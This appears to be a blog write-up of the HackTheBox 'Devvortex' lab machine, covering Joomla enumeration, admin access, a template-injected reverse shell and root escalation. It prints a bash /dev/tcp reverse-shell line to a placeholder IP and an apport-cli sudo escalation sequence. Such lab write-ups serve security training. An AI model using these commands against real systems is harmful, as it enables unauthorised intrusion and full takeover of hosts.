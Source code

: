 ```yaml
---
layout: post
title: "Devvortex-Linux-Easy"
date:   2025-07-10 12:05:57 -0400
categories: writeups
thumb: /assets/images/logos/2565d292772abc4a2d774117cf4d36ff.webp
---
```


# Devvortex

HackTheBox: Easy

<aside>
💡 Devvortex is a linux easy machine where we can practice fuzzing, exploiting vulnerabilities exposed, seversing shell’s and hashing.

</aside>

## 1: Enumeration

- Scanning ports

![Untitled]({{ '/assets/images/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7_Untitled.png' | relative_url }})<br/><br/>
<br/><br/>
Let’s look for some subdomains
<br/><br/>
![Untitled]({{ '/assets/images/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7_Untitled_1.png' | relative_url }})
<br/><br/>
FUZZ some routes
<br/><br/>
![Untitled]({{ '/assets/images/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7_Untitled_2.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7_Untitled_3.png' | relative_url }})
<br/><br/>
We can see a log in powered by joomla, which has its own scanning tool
<br/><br/>
![Untitled]({{ '/assets/images/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7_Untitled_4.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7_Untitled_5.png' | relative_url }})
<br/><br/>
Interesting, a version with a vulnerability
<br/><br/>
![Untitled]({{ '/assets/images/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7_Untitled_6.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7_Untitled_7.png' | relative_url }})
<br/><br/>
## 2: User flag
<br/><br/>
With this we break into admin interface, we can see a lot of .php files(**System -> Templates -> Administrator Templates.**), we can inject a rev shell
<br/><br/>
```bash
system('bash -c"bash -i > & /dev/tcp/10.10.00.000/0000 0>&1"');
```
<br/><br/>
We dive into as data, and we can find at /etc/passwod a logan user with creds for sql database
<br/><br/>
![Untitled]({{ '/assets/images/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7_Untitled_8.png' | relative_url }})
<br/><br/>
We hash and got the user flag
<br/><br/>
![Untitled]({{ '/assets/images/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7_Untitled_9.png' | relative_url }})
<br/><br/>
## 3: Priv esc
<br/><br/>
![Untitled]({{ '/assets/images/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7_Untitled_10.png' | relative_url }})
<br/><br/>
There is a vulnerability to esc priv we are gonna make it in this way:
<br/><br/>
```bash
sleep 60 & (segundo plano)
sudo /usr/bin/apport-cli -c /var/crash/sleep.0.crash
view report
!/bin/bash
Root...
```
<br/><br/>
Machine pwned@!
<br/><br/>
<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>


<link rel="stylesheet" href="{{ '/assets/css/imagesstyle.css' | relative_url }}">

